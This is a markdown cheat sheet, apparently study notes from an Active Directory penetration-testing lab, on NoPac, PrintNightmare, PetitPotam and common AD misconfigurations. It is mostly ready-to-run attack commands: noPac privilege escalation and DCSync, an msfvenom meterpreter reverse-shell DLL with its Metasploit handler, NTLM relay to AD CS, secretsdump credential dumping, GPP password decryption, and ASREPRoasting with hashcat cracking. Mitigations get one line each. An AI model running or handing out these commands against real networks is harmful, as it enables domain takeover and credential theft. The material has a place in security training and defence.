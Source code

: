 # Bleeding Edge Vulnerabilities & Misconfigurations in Active Directory Lateral Movement

---

## Introduction

Many organizations delay patching and overlook configuration best practices, leaving them exposed to high-impact vulnerabilities and misconfigurations. This section covers both recent, high-profile attacks (NoPac, PrintNightmare, PetitPotam) and a range of common but critical misconfigurations. Each is mapped to the tools and commands used for detection and exploitation, with technical details and concise explanations.

---

## Scenario Setup

- **Linux attack host:** SSH into ATTACK01.
- **Windows attack host:** Use MS01 for Rubeus/Mimikatz demos.
- **Switching platforms:** Use RDP for Windows, SSH from Windows to Linux as needed.
- **All tools referenced are open-source and available on GitHub.**

---

## 1. Bleeding Edge Vulnerabilities

### 1.1 NoPac (SamAccountName Spoofing)
- **CVE-2021-42278 & CVE-2021-42287**
- **Impact:** Privilege escalation from any standard domain user to Domain Admin.
- **Technique:** Change a computer account's SamAccountName to match a DC, then request Kerberos tickets as the DC.
- **Pre-requisite:** `ms-DS-MachineAccountQuota > 0` (default: 10).

**Key Commands:**
```bash
# Install tools
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket && python setup.py install
git clone https://github.com/Ridter/noPac.git

# Scan for vulnerability
sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap

# Exploit
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap

# DCSync
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator
```
**Mitigation:** Set `ms-DS-MachineAccountQuota` to 0, patch DCs.

---

### 1.2 PrintNightmare (CVE-2021-34527 & CVE-2021-1675)
- **Impact:** RCE and privilege escalation via Print Spooler service.
- **Technique:** Remote SYSTEM shell or relay attacks on unpatched hosts.

**Key Commands:**
```bash
# Clone exploit and install Impacket
git clone https://github.com/cube0x0/CVE-2021-1675.git
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket && python3 ./setup.py install

# Check for Print Spooler exposure
rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'

# Generate DLL payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll

# Host DLL
sudo smbserver.py -smb2support CompData /path/to/backupscript.dll

# Start handler (Metasploit)
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 172.16.5.225
set LPORT 8080
run

# Run exploit
sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```
**Mitigation:** Patch all hosts, disable Print Spooler where not needed.

---

### 1.3 PetitPotam (CVE-2021-36942, MS-EFSRPC)
- **Impact:** LSA spoofing, NTLM relay to AD CS, domain compromise.
- **Technique:** Relay DC authentication to vulnerable CA, obtain certificate, perform DCSync.

**Key Commands:**
```bash
# Start ntlmrelayx.py targeting AD CS
sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController

# Trigger authentication from DC
python3 PetitPotam.py 172.16.5.225 172.16.5.5

# Request TGT for DC using gettgtpkinit.py
python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$ -pfx-base64 <base64cert> dc01.ccache
export KRB5CCNAME=dc01.ccache

# DCSync with secretsdump.py
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```
**Mitigation:** Patch for CVE-2021-36942, harden AD CS, restrict templates, monitor for relaying.

---

## 2. Common Misconfigurations & Attacks

### Table: Misconfigurations, Vulnerabilities, and Attacks (with Example Commands)

| Misconfiguration / Vulnerability                | Attack / Abuse / Outcome                                 | Example Commands / Tools                                                                                   |
|------------------------------------------------|----------------------------------------------------------|------------------------------------------------------------------------------------------------------------|
| **Exchange Windows Permissions group**          | DCSync privilege escalation, domain compromise           | `net group "Exchange Windows Permissions" /domain`<br>BloodHound<br>PowerView                              |
| **PrivExchange (Exchange PushSubscription flaw)**| Relay Exchange auth to LDAP, dump NTDS, DA access        | `python3 privexchange.py -u user -p pass -d domain -t <exchange-server>`                                   |
| **Organization Management group**               | Full Exchange/OU control, mailbox access                 | `net group "Organization Management" /domain`<br>BloodHound                                                |
| **Print Spooler enabled (MS-RPRN bug)**         | Printer Bug: NTLM relay to LDAP, DCSync, RBCD            | `rpcdump.py @<target-ip> | grep MS-RPRN`<br>`Import-Module .\SecurityAssessment.ps1; Get-SpoolStatus -ComputerName <DC>`<br>`python3 SpoolSample.py <attacker-ip> <target-ip>` |
| **Unpatched MS14-068**                          | Kerberos PAC forgery, escalate to Domain Admin           | `python ms14-068.py -u user -p pass -d domain -s <dc-ip>`                                                  |
| **Weak/default LDAP credentials in devices**    | Credential sniffing, initial foothold                    | `nc -lvp 389`<br>Change LDAP IP in device/printer config                                                   |
| **AD DNS zone readable by users**               | DNS record enumeration, host discovery                   | `adidnsdump -u inlanefreight\\forend ldap://172.16.5.5`<br>`adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 -r` |
| **Passwords in user Description/Notes fields**  | Credential discovery, lateral movement                   | `Get-DomainUser * &#124; Select-Object samaccountname,description &#124; Where-Object {$_.Description -ne $null}`                             |
| **PASSWD_NOTREQD flag set on accounts**         | Weak/no password, easy brute-force or login              | `Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol`                     |
| **SYSVOL/scripts readable by all**              | Passwords in scripts, privilege escalation               | `ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts`<br>`cat \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts\reset_local_admin_pass.vbs` |
| **GPP cpassword in SYSVOL**                     | Decrypt local admin passwords, lateral movement          | `gpp-decrypt <cpassword>`<br>`crackmapexec smb -M gpp_password`<br>`Get-GPPPassword.ps1`                   |
| **Registry.xml in SYSVOL**                      | Autologon credentials, lateral movement                  | `crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin`<br>`Get-GPPAutologon.ps1`            |
| **Do not require Kerberos pre-auth (UAC flag)** | ASREPRoasting: offline password cracking                 | `.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat`<br>`GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users`<br>`kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt` |
| **GPOs with weak ACLs**                         | GPO abuse: add local admin, run code, persistence        | `Get-DomainGPO | select displayname`<br>`Get-DomainGPO | Get-ObjectAcl`<br>`SharpGPOAbuse.exe --AddLocalAdmin /GPOName:<GPO> /User:<user>`<br>BloodHound |
| **Password reuse across accounts**              | Lateral movement, privilege escalation                   | `crackmapexec smb ... --local-auth`<br>Password spraying tools                                              |
| **Unconstrained/Constrained Delegation**        | Ticket theft, lateral movement, privilege escalation     | BloodHound<br>Rubeus<br>Impacket tools                                                                      |
| **AD CS misconfigurations**                     | ESC1-8 attacks, domain persistence/compromise            | `certipy`<br>ADCS enumeration scripts                                                                       |

---

### Example: Enumerating for Printer Bug (MS-RPRN) in PowerShell

```powershell
Import-Module .\SecurityAssessment.ps1
Get-SpoolStatus -ComputerName ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

### Example: Enumerating DNS Records with adidnsdump

```bash
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 -r
```

### Example: Finding Passwords in Description Field

```powershell
Get-DomainUser * | Select-Object samaccountname,description | Where-Object {$_.Description -ne $null}
```

### GPP Password Decryption

```bash
gpp-decrypt <cpassword>
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_password
```

### ASREPRoasting

#### Method 1: PowerView + Rubeus + Hashcat

```powershell
# 1. Enumerate users with pre-auth not required
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

# 2. Extract AS-REP hash
.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
```

```bash
# 3. Crack hash offline
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt
```
```
